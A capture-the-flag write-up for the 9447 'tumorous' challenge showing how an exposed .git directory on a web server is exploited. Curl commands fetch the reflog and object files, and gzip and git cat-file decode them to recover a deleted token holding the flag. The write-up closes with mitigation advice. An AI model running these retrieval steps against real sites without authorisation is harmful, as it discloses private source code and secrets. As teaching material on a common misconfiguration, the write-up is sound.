 ## tumorous ##
Writeup by @cyphar.

> **NOTE**: This write-up has a certain assumed knowledge about git internals
> and how git stores data inside the `.git` directory. A good primer on git
> objects can be found
> [here](http://git-scm.com/book/en/v2/Git-Internals-Git-Objects).

### tl;dr ###
The `.git` directory for the website's repo was exposed, allowing for raw git
objects to be retrieved and files in the git project history to be disclosed.

### Introduction ###
The page linked in the challenge description has some diary-like entries (one
of which mentions git, leading to the conclusion that the website has a git
repository which we can access).

Here are the diary entries, for completeness:

```txt
13/2/2004: I learned how to html, yay!
12/4/2004: I learned how to use git, yay!
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
10/9/2004: I can't forget my token. What do I do?
11/9/2004: I panicked and deleted the token. It is the work of evil doers.
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.
```

If you try to visit http://tumorous.9447.plumbing/.git/, you get a 403 error,
implying that there is a `.git` directory, but indexes have been disabled for
the web server. We're going to have to do this the old-fashioned way.

### Tips and Background ###
There are quite a few helpful files inside `.git` which make our job much
easier.

* `.git/HEAD` (teamed with `.git/refs/heads/*`) can tell you the current commit
  hash that `HEAD` points to in the local git repo.
* `.git/logs/HEAD` allows you to see the history of the `HEAD` of a local git
  repo (including commit amendments and rebases, basically this file is where
  `git reflog` gets its data from).

In addition, it is necessary to know how git stores data. Basically git (at its
core), has a hashmap of hashes to objects. Some of these objects are commit
objects (which point to tree objects, which point to blob objects -- files).

Since the "website owner" hasn't purged the commits which contain the required
file, if we can find a commit where the `token` file existed, we can get that
file.

It is also helpful to know two things:

* `gzip` can decompress `zlib` compressed data (by simply adding a dummy header
  to the compressed stream) -- this makes dealing with git commit objects much
  easier. This can be done using the command:
  `(printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; cat zlib.data) | gzip -dc`
* `git cat-file` doesn't do any sanity checks on your local git repo, meaning
  that you can create a new repo, download `.git/object` files and then use
  `git cat-file` to read them without any trouble.

### Exploitation ###

So, we need to look for a git blob object that represents `token`, when it
contained the data we want.

The first step is to establish the commit history of the repo, which can be
done with our good friend `.git/logs/HEAD`:

```console
$ curl http://tumorous.9447.plumbing/.git/logs/HEAD | cat -v
0000000000000000000000000000000000000000 cb36b491e21091a258cb26f56f6157e31084a693 root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1412670724 +0000   commit (initial): I'm new to this repo stuff
cb36b491e21091a258cb26f56f6157e31084a693 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a John Doe <fsck@you.me> 1412670748 +0000       commit (amend): I'm new to this repo stuff
043a18366cb0b2ab31c0f9b14a755a8e597a8b6a 3dbda5576912236328494b11f9361dca66c0218a root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000   commit: My token now exists!
```

The commit "3dbda5576912236328494b11f9361dca66c0218a" looks like the best bet
(given the commit message). This hash is the hash of the commit object, which
contains a link to the tree object (and thus to the blob data at that point in
the git history for the repo, thus it contains the contents of the `token`
file).

> **NOTE**: For several reasons (IIRC, the main reason is that filesystems don't
> handle huge numbers of files in a single directory -- due to cache misses and
> hashmap-related issues) git stores its objects in a series of folders under
> `.git/objects`, where the object's hash is split such that the first two
> characters are the directory under `.git/objects` and the rest of the hash is
> the filename.

```console
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/3d/bda5576912236328494b11f9361dca66c0218a) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
commit 285^@tree 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
parent 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
author root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000
committer root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000

My token now exists!
```

So the tree object for that commit (ignoring the erroneous `gzip` errors) is
"97d2ea0a2433ecc3024674b1d1ab18661c99b0fe". So let's try doing the same trick to
that object.

```console
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
tree 71^@100644 index.html^@;M-:`M-oHWM-^M^F^YM-/M-pgM-GM-vYl^T&M-NM-^V100644 token^@^M/M-NF#M-*M-^LM-XM-|M-*M-iiM-IM-/LsM-`M-4M-?M-``
```

Disaster! You can see that the object refers to the elusive `token` file, but
we can't extract the hashes as easily as we did before. Turns out, git stores
the hashes of the blob objects pointed to by a tree objects in a binary format.
So we're going to have to either:

1. Download the object, then manually work through the object's data with a hex
   editor (or just `hexdump -C`) to figure out the hexadecimal representation of
   the hashes; or
2. Download the object into a git repo and then use the specifically designed
   `git cat-file` to extract the information.

Since 1 would be a major PITA, we went with 2. So you just need to make a new
repo, drop in the object data and then use `git` to parse the file for you.

```console
$ cd $(mktemp -d)
$ git init
Initialized empty Git repository in [temporary directory]
$ curl -o .git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe http://tumorous.9447.plumbing/.git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe
# [... snip ...]
$ git cat-file -t
$ git cat-file -t 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
tree
$ git cat-file -p 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
100644 blob 3bba60ef48578d0619aff067c7f6596c1426ce96    index.html
100644 blob 0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0    token
```

Okay, so now we know the hash of the blob object that represents the contents
of `token` at that point in the git repo's history --
"0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0". So now all we need to do is read
that file and we're done.

```console
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/0d/2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
blob 35^@9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

Boom! So the flag is `9447{IM_SITTING_ON_A_PILE_OF_GOLD}`.

### Notes ###
* You couldn't clone the repo over http (or at least, we couldn't -- some other
  teams managed to), hence all of this dark magic was necessary.
* @cyphar remembered how horrible git's source code is while trying to reverse
  engineer `git cat-file`, so that we didn't have to download the objects and
  defile an innocent git repo (he failed and got PTSD from it).
* You should switch to mercurial if you intend to hack on your version control
  system, while retaining your sanity and faith in humanity.

### Mitigations ###
If you don't want people to read the history of your git repo, don't make it
publically accessible. And no, turning indexes off doesn't make any difference
whatsover (AFAIK git doesn't internally use any filesystem traversal magic,
it only uses links and references to data to build and store graphs).

